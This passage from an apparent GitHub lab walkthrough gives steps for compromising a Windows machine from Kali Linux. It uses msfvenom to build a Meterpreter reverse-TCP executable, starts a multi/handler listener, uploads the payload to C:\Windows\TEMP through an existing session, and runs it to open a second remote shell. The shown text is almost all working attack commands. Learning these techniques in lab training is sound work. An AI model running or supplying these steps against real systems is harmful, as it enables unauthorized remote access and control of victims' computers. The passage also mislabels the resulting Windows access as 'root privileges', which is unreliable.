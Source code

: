 ✅ This will start a **Meterpreter session**.

---

### 9️⃣ **Create a Reverse Shell with MsfVenom**
1. **Open a second terminal** in Kali.
2. **Run the following command to create the reverse shell**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your HOST ONLY IP> LPORT=<your port> -f exe -o reverse.exe
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/51e989ca-76e7-4f4a-b0b5-b873e0f1c1b1" />

3. **Set up a listener** in the same terminal:
   ```bash
   msfconsole
   workspace hackit
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <your HOST ONLY IP>
   set LPORT 4444
   run
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/3280cda3-3366-4eff-8c75-4dc4151b77a3" />
<img width="400" alt="image" src="https://github.com/user-attachments/assets/17cc8b03-ef75-497c-88a2-68bcda0b1708" />


---

### 🔟 **Upload and Execute the Reverse Shell**
1. **Go back to the first terminal with the Meterpreter session**.
2. **Upload the reverse shell**:
   ```bash
   upload /path/to/reverse.exe C:\\Windows\\TEMP\\reverse.exe
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/6419a696-96ac-46ce-84ff-35f194d586e3" />

3. **Verify the file upload**:
   ```bash
   dir C:\\Windows\\TEMP
   ```
4. **Execute the reverse shell**:
   ```bash
   execute -f C:\\Windows\\TEMP\\reverse.exe
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/fbda3e5e-0fb3-4264-84f5-dd1bc1f950ee" />

✅ A new Meterpreter session should open on the second terminal, giving you **root privileges**.
<img width="400" alt="image" src="https://github.com/user-attachments/assets/3d09f5ea-e21f-44d2-b24c-191e57e51911" />

---
